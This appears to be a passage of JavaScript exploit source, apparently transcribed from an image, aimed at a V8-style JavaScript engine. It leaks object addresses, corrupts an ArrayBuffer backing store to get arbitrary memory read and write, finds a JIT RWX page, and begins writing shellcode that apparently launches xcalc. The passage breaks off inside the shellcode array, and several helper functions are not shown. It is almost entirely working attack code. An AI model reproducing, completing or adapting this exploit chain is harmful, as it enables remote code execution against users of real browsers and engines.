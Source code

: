 ```javascript
var str = new String(null);
function addrOf(obj)
{
	Ctor_a();
	str2obj(obj);
	let addr = str.valueOf();
	let leak_addr = 0;
	for(let i = 0; i < 8; i++){
		leak_addr += addr.charCodeAt(i) * (Math.pow(0x100,i));
	}
	return leak_addr;
}

var data_buf = new ArrayBuffer(0x233);
//%DebugPrint(data_buf);
var data_buf_addr = addrOf(data_buf);
print("[+] data_buf_addr : 0x" + hex(data_buf_addr));

var backing_store = data_buf_addr + 0x20;
print("[+] backing_store : 0x" + hex(backing_store));

//%DebugPrint(jit);
var jit_addr = addrOf(jit) - 1;
print("[+] jit_addr : 0x" + hex(jit_addr));

function overwrite_backing_store(target)
{
	Ctor_a();
	str2obj(String(null));
	Ctor_b();
	str2value(i2f(backing_store-8)); // 将值字段当成HeapNumber类型
	Ctor_c();
	hash2victim(i2f(target)); //将hash字段当成HeapNumber类型
}

var data_view = new DataView(data_buf);

//----- arbitrary read
function dataview_read64(addr)
{
	overwrite_backing_store(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	overwrite_backing_store(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

var jit_rwx = dataview_read64(jit_addr + 0x38);
print("[+] jit_rwx: 0x"+hex(jit_rwx));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
```